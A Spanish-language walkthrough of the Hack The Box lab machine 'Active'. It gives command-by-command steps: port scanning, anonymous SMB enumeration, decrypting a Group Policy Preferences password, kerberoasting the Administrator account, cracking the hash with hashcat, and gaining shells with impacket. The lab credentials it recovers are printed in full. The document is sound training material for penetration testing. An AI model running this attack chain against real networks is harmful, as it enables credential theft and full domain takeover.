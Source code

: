 ![1](Images/1.png)

Comenzamos enumerando puertos abiertos con nmap.

``sudo nmap 10.10.10.100 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![2](Images/2.png)

Dados los puertos abiertos, tiene bastante pinta de que es un DC. No obstante, vamos a ver qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.10.100 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49163,49174,49176 -oN target``

![3](Images/3.png)

Confirmamos que es un DC. A su vez, podemos empezar a ver cositas, como que el dominio es active.htb. Para recopilar un poquito más de información vamos a hacer uso de netexec.

``netexec smb 10.10.10.100``

![4](Images/4.png)

Confirmamos que el dominio es active.htb, que la máquina se llama dc y que tiene un WinServer 2008.

Añadimos esta información al /etc/hosts.

![5](Images/5.png)

Para continuar enumerando información que pueda ser de utilidad, vamos a intentar ver qué recursos se están compartiendo:

``netexec smb 10.10.10.100 -u '' -p '' --shares``

![6](Images/6.png)

Tenemos permisos de lectura en el recurso Replication, lo cual es llamativo. Vamos a echar un vistazo con null sesion.

``smbclient //10.10.10.100/REPLICATION -N``

![7](Images/7.png)

active.htb -> Parece la estructura de SYSVOL

Para echarle un ojo más a fondo, vamos a traernos todo lo existente a la máquina atacante.

``recurse ON``

``prompt OFF``

``mget *``

A medida que se van descargando, si nos fijamos, hay algo que llama la atención:

![8](Images/8.png)

groups.xml. Este archivo es muy jugoso porque a veces tiene contraseñas.

Si queremos ver la estructura de todos los datos descargados:

``tree .``

![9](Images/9.png)

Y si echamos un vistazo a Groups.xml : 

![11](Images/10.png)

Vemos claramente una referencia al usuario SVC_TGS y la contraseña encriptada. Para poder romperla hacemos uso de la utilidad ``gpp-decrypt``.

``gpp-decrypt 'CLAVE'``

![12](Images/12.png)

Tenemos la contraseña, y por tanto, las posibles credenciales -> SVC_TGS : GPPstillStandingStrong2k18

Vamos a ver si son válidas con netexec.

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'``

![13](Images/13.png)

Nos pone [+], por lo que son credenciales válidas. Una vez sabemos esto, podemos seguir husmeando para ver qué se esta compartiendo para este usuario por SMB:

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares``

![14](Images/14.png)

Lo único que puede parecer interesante, a priori, es el directorio Users. Si nos conectamos con smbclient con estas credenciales, vemos que es el directorio C:\Users. De hecho, podemos acceder a user.txt dentro del directorio SVC_TGS, pero en un escenario como el de la OSCP no sirve con obtener la flag de esta forma porque no tenemos una consola interactiva.

![15](Images/15.png)

Vale, tenemos unas credenciales válidas, pero no tenemos forma de conectarnos: no hay winRM, no hay RDP y no podemos hacer uso de psexec/wmiexec por falta de privilegios.

Como tenemos credenciales, podemos probar kerberoasting para ver si capturamos algún hash de otro usuario:

``impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``

-> Password: GPPstillStandingStrong2k18

![16](Images/16.png)

Ojo. Tenemos el TGS del usuario Administrator. Si conseguimos descifrarlo, está hecho. Nos copiamos el contenido en un archivo. Ej: admintgs

![17](Images/17.png)

Buscamos en hashcat el código para el TGS-REP (``krb5tgs$23$``):

``hashcat --help | grep -i "kerberos"

![18](Images/18.png)

Lanzamos hashcat con rockyou como diccionario.

``hashcat -m 13100 admintgs /usr/share/wordlists/rockyou.txt --force``

![19](Images/19.png)

Lo ha sacado. Tenemos contraseña del usuario Administrator : Ticketmaster1968

Validamos credenciales con netexec:

``netexec smb 10.10.10.100 -u 'administrator' -p 'Ticketmaster1968'``

![20](Images/20.png)

Nos aparece pwned para smb, por lo que podríamos utilizar wmiexec (para acceder como administrator) y psexec (para acceder como nt authority\system):

Ejemplos:

``impacket-wmiexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![21](Images/21.png)

``impacket-psexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![22](Images/22.png)

Recogemos la flag de usuario en: C:\Users\SVC_TGS\Desktop:

![32](Images/23.png)

Y por último, recogemos la flag de Administrador en C:\Users\Administrator\Desktop:

![24](Images/24.png)
